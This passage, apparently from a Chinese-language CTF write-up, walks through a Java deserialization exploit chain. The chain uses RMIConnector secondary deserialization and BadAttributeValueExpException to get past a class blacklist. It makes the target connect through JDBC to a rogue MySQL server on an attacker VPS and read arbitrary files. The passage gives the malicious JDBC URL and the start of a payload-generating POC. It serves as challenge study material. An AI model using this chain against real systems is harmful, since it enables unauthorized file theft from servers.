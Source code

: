 但是前面我们说过`com.example.demo.bean.Connect`这个类是不被允许反序列化的, 那么怎么才能调用呢?

答案就是二次反序列化了, 但是常用的`java.security`也被ban了, 这时候就需要找到另一个触发二次反序列化的class了, 这里可以参考[2022鹏城杯-Ez\_Java](https://blog.csdn.net/miuzzx/article/details/125576866#Ez_Javaxenny_227)和[\[JavaDerserializeLabs-writeup\](http://novic4.cn/)](http://novic4.cn/index.php/archives/26.html#cl-4), 使用`RMIConnector`(JMXConnector的唯一原生实现类)触发二次反序列化, 想要触发RMIConnector的二次反序列化功能就需要调用它的`connect`函数

所以, 这不就符合条件了?

1. 需要二次反序列化绕过`com.example.demo.bean.Connect`的反序列化限制
2. 可以通过`RMIConnector#connect`完成二次反序列化
3. 题目中的`MyBean#toString`会触发一个JMXConnector属性的`connect`函数, RMIConnector是JMXConnector的实现类所以`RMIConnector#connect`也在可触发范围内

好的, 现在问题就来到了怎么触发`MyBean#toString`, 这个就可以用`BadAttributeValueExpException`触发一个对象的`toSring`(CC5中被使用)

所以总结下来就是:

1. 使用`BadAttributeValueExpException => MyBean#toString => RMIConnector#connect => 二次反序列化`
2. 二次反序列化的调用链:`BadAttributeValueExpException => MyBean#toString => com.example.demo.bean.Connect#connect => com.mysql.jdbc.Driver#getConnection => 使用我们定义的jdbc链接去访问恶意Mysql服务 => 任意文件读取`

恶意Mysql服务有很多个, 但是个人还是感觉[rogue\_mysql\_server](https://github.com/rmb122/rogue_mysql_server)这个项目比较好用

先在本地运行`rogue_mysql_server`开启一个恶意的mysql服务, 然后通过二次反序列化让`com.mysql.jdbc.Driver#getConnection`连接`jdbc:mysql://VPS:PORT/file:///?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`, 运行成功可以在rogue\_mysql\_server服务运行界面看到连接请求以及文件读取情况, 如果成功了的话默认会将文件的读取结果输出到`./loot/连接服务的ip/时间戳_文件名`里面

下面是生成触发payload的EXP::

```java
package com.example.demo;

import com.example.demo.bean.Connect;
import com.example.demo.bean.MyBean;
import com.example.demo.utils.MyObjectInputStream;
import com.example.demo.utils.tools;

import javax.management.BadAttributeValueExpException;
import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class POC {
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        Field valfield = obj.getClass().getDeclaredField(fieldName);
        valfield.setAccessible(true);
        valfield.set(obj,value);
    }
    public static byte[] serialize(final Object obj) throws IOException {
        final ByteArrayOutputStream out = new ByteArrayOutputStream();
        final ObjectOutputStream objOut = new ObjectOutputStream(out);
        // 序列化后的数据初始6位一般为 rO0ABX 所以writeUTF写入一个和rO0ABX同hashcode的字符串
        objOut.writeUTF("qn0ABX");
        objOut.writeObject(obj);
        return out.toByteArray();
    }
    public static Object deserialize(final byte[] serialized) throws IOException, ClassNotFoundException {
        final ByteArrayInputStream in = new ByteArrayInputStream(serialized);
        final ObjectInputStream objIn = new ObjectInputStream(in);
        return objIn.readObject();
    }
```